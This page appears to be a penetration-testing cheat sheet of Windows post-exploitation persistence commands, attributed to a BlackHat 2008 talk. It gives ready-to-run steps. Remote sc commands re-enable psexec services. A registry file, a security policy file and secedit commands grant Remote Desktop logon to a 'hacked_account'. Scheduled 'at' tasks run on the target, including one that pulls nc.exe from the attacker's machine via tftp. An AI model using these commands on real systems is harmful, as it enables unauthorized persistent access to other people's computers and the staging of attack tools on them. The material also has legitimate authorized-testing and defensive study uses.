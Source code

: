 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### Enable `psexec`
The [`psexec` tool](http://technet.microsoft.com/en-us/sysinternals/bb897553.aspx) executes processes on other systems over a network. Most systems now disable the "clipbook" which `psexec` required. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 50)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can re-enable the sub-systems needed to use `psexec` using the `sc` commands below.
    
<pre>
c:\> net use \\[TargetIP]\ipc$ username /user:password
c:\> sc \\[TargetIP] config netdde start= auto
c:\> sc \\[TargetIP] config netddedsdm start= auto
c:\> sc \\[TargetIP] config clipsrv start= auto
c:\> sc \\[TargetIP] start netdde
c:\> sc \\[TargetIP] start netddedsdm
c:\> sc \\[TargetIP] start clipsrv
</pre>

### Enable Remote Desktop
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
c:\> regedit /s enable_ts.reg
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
c:\> gpupdate /Force
c:\> net start "terminal services"
</pre>


### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`